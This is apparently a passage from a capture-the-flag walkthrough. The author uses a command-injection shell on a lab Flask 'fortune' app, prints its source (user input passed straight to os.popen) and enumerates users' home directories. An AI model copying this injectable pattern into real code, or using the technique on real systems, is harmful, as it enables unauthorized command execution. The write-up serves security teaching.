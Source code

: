     
    
    root@kali# ./fortune_shell.py 
    fortune> id
    uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)
    fortune> pwd
    /var/appsrv/fortune
    fortune> ls
    __pycache__
    fortuned.ini
    fortuned.log
    fortuned.pid
    fortuned.py
    templates
    wsgi.py
    

I can take this opportunity to check out the code for the site, and see
clearly where my command injection takes place:

    
    
    fortune> cat fortuned.py
    from flask import Flask, request, render_template, abort
    import os
    
    app = Flask(__name__)
    
    @app.route('/select', methods=['POST'])
    def fortuned():
    
        cmd = '/usr/games/fortune '
        dbs = ['fortunes', 'fortunes2', 'recipes', 'startrek', 'zippy']
        selection = request.form['db']
        shell_cmd = cmd + selection
        result = os.popen(shell_cmd).read()     # 0xdf: injection here!!!
        return render_template('display.html', output=result)
    

## Authorization as nfsuser

### Enumeration

Looking around with my shell, I find a few interesting things. I see three
user home directories:

    
    
    fortune> ls /home
    bob
    charlie
    nfsuser
    

I can’t access charlie, and nfsuser seems empty:

    
    
    fortune> ls /home/charlie
    ls: charlie: Permission denied
    